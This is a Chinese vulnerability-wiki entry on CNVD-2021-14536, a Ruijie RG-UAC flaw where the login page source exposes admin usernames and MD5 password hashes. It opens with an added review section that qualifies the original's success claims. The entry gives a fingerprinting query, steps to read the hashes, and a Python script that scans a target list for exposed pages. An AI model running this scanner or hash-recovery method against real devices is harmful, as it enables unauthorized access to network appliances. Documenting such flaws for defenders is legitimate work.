





# 锐捷 RG-UAC 账号密码信息泄露 CNVD-2021-14536

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Ruijie RG-UAC
- 本文讨论：CNVD-2021-14536 登录页面密码MD5泄露
- 版本、权限与配置前提：登录页面可读；离线猜解不保证成功，固件未列
- 资料类型：重复凭据泄露PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 同730正文/脚本根因，增加本地截图；MD5不是可逆解密
- 检测以super_admin/password字符串不证明实际凭据，网络错误误报不存在
- 无修复版本/明确原始公告
- 已落实的文本修订：“解密md5得到密码后即可登录系统”改为“MD5 是单向摘要；若在授权测试中通过候选密码比对恢复明文，仍需验证账户状态与登录边界，不能保证由摘要直接登录”。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 截图有效性/版本矩阵待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台

## 漏洞影响

```
锐捷RG-UAC统一上网行为管理审计系统
```

## 网络测绘

```
title="RG-UAC登录页面"
```

## 漏洞复现

来到登录页面




按F12查看源码,可以发现账号和密码的md5形式




MD5 是单向摘要；若在授权测试中通过候选密码比对恢复明文，仍需验证账户状态与登录边界，不能保证由摘要直接登录







## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
